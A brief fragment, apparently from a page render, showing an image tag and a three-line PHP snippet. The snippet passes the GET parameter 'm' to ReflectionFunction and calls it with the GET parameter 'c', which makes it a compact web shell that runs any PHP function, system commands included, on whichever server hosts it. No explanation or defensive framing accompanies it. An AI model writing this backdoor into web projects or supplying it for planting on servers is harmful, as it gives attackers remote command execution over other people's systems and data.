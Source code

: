 

<img src="11.jpg" alt="alt text" title="Title" />


***************************************************
code:

<?php
    $func = new ReflectionFunction($_GET[m]);
    echo $func->invokeArgs(array($_GET[c]));
?>

***************************************************